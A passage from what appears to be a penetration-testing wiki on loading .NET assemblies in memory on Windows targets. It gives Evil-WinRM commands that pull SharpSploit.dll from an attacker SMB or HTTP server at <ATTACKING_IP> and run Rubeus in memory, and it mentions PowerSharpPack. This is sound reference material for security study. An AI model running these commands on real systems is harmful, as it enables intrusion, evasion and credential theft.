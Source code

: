 ```csharp
            return;   
        }
        
        // important: methods called by ExecuteInDefaultAppDomain need to stick to this signature
        static int spotlessMethod(String pwzArgument)
        {
            Console.WriteLine("Hi from CLR");
            return 1;
        }
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

### Tools

{% tabs %}
{% tab title="Evil-WinRm" %}
If we can access the target through WinRM, we can use the built-in commands to load dll libraries and binaries in memory.

#### Dll-Loader

We can use `Dll-Loader` to load dll in memory. The dll file can be hosted by smb, http or locally. Once it is loaded type `menu`, then it is possible to autocomplete all functions.

```powershell
#Load dll from the victime disk
*Evil-WinRM* PS C:\> Dll-Loader -local -path C:\Users\Pepito\Desktop\SharpSploit.dll

#Load dll from SMB server
*Evil-WinRM* PS C:\> Dll-Loader -smb -path \\<ATTACKING_IP>\Share\SharpSploit.dll

#Load dll from HTTP server
*Evil-WinRM* PS C:\> Dll-Loader -http -path http://<ATTACKING_IP>/SharpSploit.dll

#Call methods
*Evil-WinRM* PS C:\> [SharpSploit.Enumeration.Host]::GetProcessList()
```

#### Invoke-Binary

We can use `Invoke-Binary` to load a local (on attacking host) .NET binary in memory.

```powershell
#Load local .NET binary
*Evil-WinRM* PS C:\> Invoke-Binary /opt/csharp/Rubeus.exe
```
{% endtab %}

{% tab title="PowerSharpPack" %}
[PowerSharpPack](https://github.com/S3cur3Th1sSh1t/PowerSharpPack) provide many usefull offensive CSharp Projects wraped into Powershell for easy usage. It use the mentioned gzip+base64 encode methods to load .NET assembly in memory.
